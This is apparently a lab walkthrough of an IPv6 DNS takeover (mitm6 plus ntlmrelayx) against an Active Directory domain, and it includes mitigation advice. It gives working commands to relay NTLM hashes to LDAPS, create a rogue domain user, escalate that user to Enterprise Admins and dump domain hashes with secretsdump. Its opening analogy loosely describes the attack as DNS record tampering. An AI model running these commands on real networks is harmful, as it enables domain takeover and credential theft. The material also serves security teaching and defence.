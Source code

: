# What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

![](attachments/20240305155204.png)

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:
![](attachments/20240304150525.png)
`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`
The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:
![](attachments/20240304150712.png)
`sudo mitm6 -d DOMAIN.local`
Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

![](attachments/20240304151412.png)

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

![](attachments/20240304151516.png)
Information is dumped in 3 different formats: JSON,HTML,GREP

![](attachments/20240304153934.png)

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

![](attachments/20240304154232.png)

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

![](attachments/20240304154510.png)
`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

![](attachments/20240304154651.png)

Although this user is only a domain user.

![](attachments/20240304154723.png)

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

![](attachments/20240304154822.png)

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

![](attachments/20240304155634.png)

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

![](attachments/20240304155816.png)
## Dumping Hashes

We can now dump hashes with our newly created user credentials

![](attachments/20240304161456.png)

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

